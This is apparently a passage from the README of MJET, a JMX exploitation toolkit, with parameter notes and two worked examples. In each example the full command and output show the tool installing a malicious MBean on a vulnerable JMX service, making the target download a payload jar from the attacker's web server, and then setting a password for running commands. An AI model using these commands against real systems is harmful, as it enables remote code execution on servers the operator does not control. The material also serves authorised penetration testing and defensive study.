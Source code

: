   * *gadget* - gadget as provided by ysoserial, e.g., CommonsCollections6
  * *cmd* - command to be executed
* **webserver** - just run the MLET web server
  * *payload_url* - full URL to load the payload
  * *payload_port* - port to load the payload

## Examples


### Installing the payload MBean on a vulnerable JMX service

In the following example, the vulnerable JMX service runs on 10.165.188.23 port 2222, the attacker has
the IP address 10.165.188.1. The JMX service will connect to the web service of the attacker to download
the payload jar file. MJET will start the necessary web service on port 8000.

After the successful installation of the MBean, the default password is changed to the password that was provided
at the command line ("super_secret").

```
h0ng10@rocksteady ~/w/mjet> java -jar jython-standalone-2.7.0.jar mjet.py 10.165.188.23 2222 install super_secret http://10.165.188.1:8000 8000

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://10.165.188.1:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
10.165.188.23 - - [26/Apr/2019 21:50:37] "GET / HTTP/1.1" 200 -
[+] Successfully loaded MBeanMogwaiLabs:name=payload,id=1
[+] Changing default password...
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Successfully changed password
[+] Done
h0ng10@rocksteady ~/w/mjet> 
```

Installation with JMX credentials (also needs a weak configuration of the server):
```
h0ng10@rocksteady:~/mjet$ jython mjet.py 192.168.11.136 9991 install super_secret http://192.168.11.132:8000 8000 --jmxrole JMXUSER --jmxpassword JMXPASSWORD
mJET - MOGWAI LABS JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Using credentials: JMXUSER / JMXPASSWORD
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /mogwailabs_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanMogwaiLabs:name=payload,id=1
[+] Changing default password...
[+] Loaded de.mogwailabs.mlet.MogwaiLabsPayload
[+] Successfully changed password

h0ng10@rocksteady:~/mjet$
```


[?]: Returned error: